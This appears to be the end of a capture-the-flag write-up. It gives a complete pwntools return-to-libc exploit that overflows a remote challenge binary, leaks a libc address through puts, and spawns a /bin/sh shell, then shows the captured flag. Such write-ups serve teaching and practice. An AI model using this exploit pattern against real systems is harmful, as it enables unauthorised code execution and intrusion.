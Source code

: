 >4. Sending last payload : 


```python=
final = flat(
    b"A"* offset,
    rdi,
    p64(binsh),
    ret,
    p64(system)
)
p.sendline(final)
p.interactive()
```

![](https://i.imgur.com/W3WGKaG.png)

>Full Exploit : 
```python=
from pwn import * 
context.update(arch='amd64',os='linux',log_level='debug')
#p = process('./main')
p = remote("18.144.22.223", 10024)
elf = ELF('./main', checksec=0)
#libc = elf.libc
libc = ELF("./libc6_2.27-3ubuntu1.5_amd64.so")
offset = 120
rdi = p64(0x00000000004012cb)
ret = p64(0x0000000000401020)
payload = flat(
    b"A" * offset,
    rdi,
    p64(elf.got.puts),
    p64(elf.plt.puts),
    p64(elf.sym.main)
)
p.sendline(payload)
p.recvuntil('violence !')
p.recvline()
puts_got = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts@got @ " + hex(puts_got))
libc_base = puts_got - libc.sym.puts
print(hex(libc_base))
system = libc_base + libc.sym.system
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))
final = flat(
    b"A"* offset,
    rdi,
    p64(binsh),
    ret,
    p64(system)
)
p.sendline(final)
p.interactive()
```
> Flag : flag{ac95f35b9ba0ed11c79b8464341e9fb7d4514c816d65d141cb54d45d965c2859}
